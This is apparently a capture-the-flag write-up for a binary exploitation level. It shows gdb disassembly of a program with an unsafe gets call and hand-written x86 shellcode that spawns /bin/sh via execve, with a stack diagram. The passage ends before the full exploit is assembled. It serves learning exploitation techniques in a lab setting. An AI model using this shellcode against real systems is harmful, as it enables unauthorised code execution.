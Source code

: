 # Level2

	(gdb) disas main
	Dump of assembler code for function main:
	   0x0804853f <+0>:	push   %ebp
	   0x08048540 <+1>:	mov    %esp,%ebp
	   0x08048542 <+3>:	and    $0xfffffff0,%esp
	   0x08048545 <+6>:	call   0x80484d4 <p>
	   0x0804854a <+11>:	leave  
	   0x0804854b <+12>:	ret    
	End of assembler dump.
	(gdb) disas p
	Dump of assembler code for function p:
	   0x080484d4 <+0>:	push   %ebp
	   0x080484d5 <+1>:	mov    %esp,%ebp
	   0x080484d7 <+3>:	sub    $0x68,%esp
	   0x080484da <+6>:	mov    0x8049860,%eax
	   0x080484df <+11>:	mov    %eax,(%esp)
	   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
	   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
	   0x080484ea <+22>:	mov    %eax,(%esp)
	   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
	   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
	   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
	   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
	   0x080484fb <+39>:	and    $0xb0000000,%eax
	   0x08048500 <+44>:	cmp    $0xb0000000,%eax
	   0x08048505 <+49>:	jne    0x8048527 <p+83>
	   0x08048507 <+51>:	mov    $0x8048620,%eax
	   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
	   0x0804850f <+59>:	mov    %edx,0x4(%esp)
	   0x08048513 <+63>:	mov    %eax,(%esp)
	   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
	   0x0804851b <+71>:	movl   $0x1,(%esp)
	   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
	   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
	   0x0804852a <+86>:	mov    %eax,(%esp)
	   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
	   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
	   0x08048535 <+97>:	mov    %eax,(%esp)
	   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
	   0x0804853d <+105>:	leave  
	   0x0804853e <+106>:	ret    
	End of assembler dump.

There is another vulnerable gets call, however this time there is no useful function to exploit.
We can build our own asm code that will run a shell, and pass its memory address to the binary somehow.

Here is our code :

	global	_start
	section	.text
	
	_start:	
		; set registers to NULL
		xor	eax, eax
		xor	ebx, ebx
		xor	ecx, ecx
		xor	edx, edx
	
		push	edx		; push NULL
		; We need to push /bin/sh on the stack using a x86 architecture. So we need to push 4 bytes at a time, and in little endian number
		push	0x68732f6e	; hs/n
		push	0x69622f2f	; ib//
		
		mov	ebx, esp
		push	edx ; push NULL
		
		push	ebx ; push string address
		
		mov	ecx, esp
		mov	al, 11 ; syscall number of execve
		int	0x80

This is how the stack will look like : 

	+------------------------+
	| //bin/sh |<-+
	+------------------------+ |
	| edx = 0 | |
	+------------------------+ |
	+->| ebx = addr chaine |--+
	| +------------------------+
	| | 0 |
	| +------------------------+
	+--| ecx = addr addr chaine |
	+------------------------+
[source](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20shellcodes.pdf)

